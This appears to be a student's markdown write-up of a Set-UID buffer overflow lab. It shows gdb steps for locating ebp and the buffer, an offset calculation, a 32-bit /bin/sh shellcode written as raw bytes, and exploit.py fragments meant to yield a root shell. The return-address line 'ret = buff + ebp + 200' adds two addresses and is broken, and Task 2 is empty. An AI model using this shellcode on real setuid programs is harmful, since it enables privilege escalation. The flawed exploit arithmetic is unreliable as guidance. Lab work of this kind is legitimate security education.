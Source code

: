 # Buffer Overflow Attack Lab (Set-UID Version)

## Task 1
On the terminal, after running the a32.out or the a64.out files, a shell is generated. Initially this shell is placed inside the folder that contains those same files and allows us to write any shellcode and execute it.

## Task 2

## Task 3

First we need to find the address of where our program is running in the memory. In order to do that we have to compile the program on debug mode (-g option). When debugging we will be able to find the ebp and offset so we can have the right buffer payload to run our program. 

Running our program in debug mode:
`gdb stack-L1-dbg`

Then we set a breakpoint on bof and then run the program:

`b bof`
output: Breakpoint 1 at 0x12ad: file stack.c, line 16.

`run`
The program stops when hits the bof function because of the breakpoint that we created. The values of the stack frame for this function will be used on the badfile. 

`p $ebp`
output: $1 = (void *) 0xffffcfb8

`p &buffer`
output: $2 = (char (*)[100]) 0xffffcb3c

As we can see, the frame pointer is on 0xffffcfb8, so the return address must be stores at 0xffffcfb8+4, then the first address we can jump is 0xffffcfb8+8. 
We need to know where we should store the return address in the input in order for it to be stored in the return address filed in the slack. We can find that just by doing the diference between return and buffer start address.
`p/d 0xffffcfb8 - 0xffffcb3c`
output: $3 = 1148

As we can see the distance between the return address and the start buffer is 1148+4 so the return address must be storires with offset of 1152 in badfile.

**We now have to edit the file exploit.py to fill the content for badfile.** 

**We used a 32 bit shellcode:**

shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')

**we know that our string size is 517, so we should start at 517 minus the lenght of our shellcode**

start = 517-len(shellcode)   

**The content should be the shellcode itself**

content[start: start+len(shellcode)] = shellcode

**The return adress is given by the buffer and the ebp:**

buff =  0xffffcb3c

ebp =   0xffffcfb8

offset = ebp - buff + 4

ret = buff + ebp + 200

By compiling and executing our program exploit.py, we will generate the badfile content. 
After running our program` ./stack` we shoud be able to gain control as a root, that is, a shell prompt will be available. 